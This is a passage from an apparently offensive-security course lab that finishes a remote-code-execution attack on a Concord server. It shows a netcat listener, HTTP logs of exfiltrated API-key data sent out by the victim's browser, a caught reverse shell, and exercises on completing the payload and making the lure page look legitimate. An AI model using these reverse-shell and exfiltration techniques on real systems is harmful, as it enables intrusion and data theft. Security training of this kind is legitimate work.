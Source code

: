 > Listing 21 - Using Fetch to Call whoami

Now that the payload is ready, we need to open a netcat listener to catch the shell. This should match the settings that we configured in our payload, including setting the port to 9000.

```
kali@kali:~$ nc -nvlp 9000
listening on [any] 9000 ...
```

> Listing 22 - Starting Listener

We'll once again send our Kali IP to the user simulator. Once the simulation runs, we should find a new log entry in our HTTP server.

```
192.168.121.253 - - [07/Apr/2021 20:27:25] "GET / HTTP/1.1" 200 -
192.168.121.253 - - [07/Apr/2021 20:27:25] "GET /?msg={%20%20%22realm%22%20:%20%22apikey%22,%20%20%22username%22%20:%20%22concordAgent%22,%20%20%22displayName%22%20:%20%22concordAgent%22} HTTP/1.1" 200 -
192.168.121.253 - - [07/Apr/2021 20:27:25] "GET /?msg={%20%20%22instanceId%22%20:%20%22a85f6fef-69cb-4127-975c-9aa97584415e%22,%20%20%22ok%22%20:%20true} HTTP/1.1" 200 -
```

> Listing 23 - Concord New Process Response

This new log entry contains the response the victim's browser received when a new process was added.

Our listener should also indicate that we caught a shell.

```
kali@kali:~$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.120.132] 39888
whoami
concord

ls -alh
total 28K
drwxr-xr-x 4 concord concord 4.0K Apr  8 00:27 .
drwx------ 3 concord concord 4.0K Apr  8 00:27 ..
drwxr-xr-x 2 concord concord 4.0K Apr  8 00:27 .concord
drwxr-xr-x 3 concord concord 4.0K Apr  8 00:27 _attachments
-rw-r--r-- 1 concord concord   36 Apr  8 00:27 _instanceId
-rw-r--r-- 1 concord concord  978 Apr  8 00:27 _main.json
-rw-r--r-- 1 concord concord  956 Apr  8 00:27 concord.yml
```

> Listing 24 - Reverse Shell

Excellent! We now have RCE in Concord!

#### Exercises

1. We've left out some important options in the _rce_ function that require the payload to work. Fix the payload to include the appropriate fetch options.
2. Add content to the HTML to make the page look more legitimate.
3. Build a payload in Python.
4. Build a payload in Ruby.
